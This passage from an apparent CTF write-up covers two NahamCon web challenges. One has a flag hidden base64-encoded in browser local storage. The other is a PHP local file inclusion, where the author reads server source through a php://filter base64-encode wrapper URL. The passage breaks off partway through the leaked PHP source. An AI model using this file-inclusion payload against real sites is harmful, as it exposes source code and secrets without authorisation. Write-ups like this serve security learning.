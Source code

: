The code sets the item "flag" to the string `SkNURntzcG9vb29va3lfZ2hvc3RzX2luX3N0b3JhZ2V9` if we base64 decode this string we get the flag.

Another way to solve this challenge is to simply use chrome dev tools, where the flag is stored in Local Storage.

![Local Ghost]({{ site.url }}{{ site.baseurl }}/assets/Nahamconctf/localflag.jpg)
{: .full}

***

### PhphoneBook

* Clue: Ring ring! Need to look up a number? This phonebook has got you covered! But you will only get a flag if it is an emergency!
* Points: 100
* Solves: 561

The web page gives us the following:

```
Sorry! You are in /index.php/?file=
The phonebook is located at phphonebook.php
```

I first tried going directly to phphonebook.php and got the following page: 

![phphonebook]({{ site.url }}{{ site.baseurl }}/assets/Nahamconctf/phonebook.jpg)

I then tried going to /index.php/?file=phphonebook.php and got the same page. I realised quickly that it was a local file inclusion, but spent too long trying to look for other files, like a flag.php, which doesn't exist. 

Eventually I realised / remembered that I might be able to get the contents of phphonebook.php by using base64 encoding. 

```
http://jh2i.com:50002/index.php?file=php://filter/convert.base64-encode/resource=phphonebook.php
```

It works! This gives us the contents of phphonebook.php encoded in base64. 

Decoding it gives us the following code:

```php
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Phphonebook</title>
    <link href="main.css" rel="stylesheet">
  </head>

  <body class="bg">
    <h1 id="header"> Welcome to the Phphonebook </h1>

    <div id="im_container">

      <img src="book.jpg" width="50%" height="30%"/>

      <p class="desc">
      This phphonebook was made to look up all sorts of numbers! Have fun...
      </p>

    </div>
<br>
<br>
    <div>
      <form method="POST" action="#">
```